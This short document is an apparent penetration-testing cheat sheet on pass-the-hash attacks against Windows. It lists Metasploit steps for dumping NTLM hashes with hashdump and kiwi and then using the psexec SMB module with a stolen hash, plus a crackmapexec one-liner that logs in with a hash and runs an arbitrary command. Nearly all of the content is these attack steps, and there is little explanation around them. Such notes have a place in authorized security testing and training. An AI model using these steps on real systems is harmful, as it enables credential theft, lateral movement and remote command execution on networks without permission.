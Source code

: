 Consist in using clear-text passwords or NTLM hashes to access the target legitimately

# Metasploit
```
Collect the NTLM hash and the LN hash using hashdump and kiwi meterpreter functions
exploit/windows/smb/psexec
set the SMBPass NL_HASH:NTLM_HASH
If doesn't work change targets
```

# Crackmapexec
```
crackmapexec smb IP_ADDRESS -u USER -H "NTLM_HASH" -x "COMMAND"
```